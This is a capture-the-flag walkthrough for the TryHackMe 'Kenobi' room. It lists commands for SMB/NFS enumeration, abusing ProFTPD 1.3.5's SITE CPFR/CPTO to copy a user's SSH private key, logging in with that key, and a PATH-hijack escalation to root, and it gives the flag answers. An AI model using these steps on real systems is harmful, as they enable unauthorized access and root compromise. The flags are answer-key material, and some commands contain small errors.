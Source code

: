 # Kenobi

[Kenobi](https://tryhackme.com/room/kenobi) 

### Description:
Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

## Task 1: Deploy the vulnerable machine

#### Question 1: Scan the machine with nmap, how many ports are open?

 1) nmap -sV -sC 10.10.165.110  
 2) **7**

## Task 2: Enumerating Samba for shares

#### Question 1: Using the nmap command above, how many shares have been found?

Nmap scripting-engine does the job: 

 1) nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.165.110
 2) **3**

#### Question 2: Once you're connected, list the files on the share. What is the file you can see?

 1) Connection to the share: Connect smbclient //<10.10.165.110>/anonymous
 2) ls
 3) **log.txt**

#### Question 3: What port is FTP running on?

 1) **21** (standard port for FTP)

#### Question 4: What mount can we see?

 1) nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.165.110
 2) **/var**

## Task 3: Gain initial access with ProFtpd
 
#### Question 1: What is the version?

 1) **1.3.5** (as seen in the nmap output from the beginning)

#### Question 2: How many exploits are there for the ProFTPd running?
 
 1) searchsploit ProFtpd
 2) **3** exploits for the 1.3.5 version shown

#### Question 3: We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

 1) No answer needed

#### Question 4: We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.
 
 1) No answer needed

#### Question 5: What is Kenobi's user flag (/home/kenobi/user.txt)?

 1) nc 10.10.165.110 21 (will not give a connected message)
 2) SITE CPFR /home/kenobi/.ssh/id_rsa
 3) SITE CPTO /var/tmp/id_rsa
 4) mkdir /mnt/kenobiNFS
 5) mount 10.10.165.110.21:/var /mnt/kenobiNFS
 6) ls -la /mnt/kenobiNFS
 7) cp /nfs/tmp/id_rsa .
 8) sudo chmod 600 id_rsa
 9) ssh -i id_rsa kenobi@10.10.165.110
 10) **d0b0f3f53b6caa532a83915e19224899**


## Task 4: Privilege Escalation with Path Variable Manipulation

#### Question 1: What file looks particularly out of the ordinary? 

 1) find / -perm -u=s -type f 2>/dev/null
 2) **/usr/bin/menu**

#### Question 2: Run the binary, how many options appear?

 1) **3**

#### Question 3: We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

 1) No answer needed

#### Question 4: What is the root flag (/root/root.txt)?

 1) **177b3cd8562289f37382721c28381f02**

Note: This writeup is copied from one of my older writeups I have done in cherrytree, slowly adding all writeups to github in .md files


